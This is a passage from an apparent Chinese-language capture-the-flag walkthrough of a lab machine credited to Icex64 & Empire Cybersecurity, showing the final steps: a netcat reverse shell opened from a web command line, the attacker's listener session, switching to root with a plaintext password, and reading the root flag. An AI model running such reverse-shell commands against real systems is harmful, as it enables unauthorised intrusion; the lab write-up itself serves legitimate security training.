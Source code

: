         # 网页命令行反弹shell
        nc 192.168.75.151 1234 -e /bin/bash
        ```
        
    - 获得`shell`之后直接`su root`
        
        ```python
        nc -lvp 1234            
        我们可以尝192.168.75.183: inverse host lookup failed: Unknown host
        connect to [192.168.75.151] from (UNKNOWN) [192.168.75.183] 41962
        
        id
        uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
        su root
        Ts&4&YurgtRX(=~h
        id
        uid=0(root) gid=0(root) groups=0(root)
        ```
        
        获得权限！！！
        
7. 读取`flag`文件
    
    ```python
    # cat rOOt.txt
    3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}
    
    Author: Icex64 & Empire Cybersecurity
    ```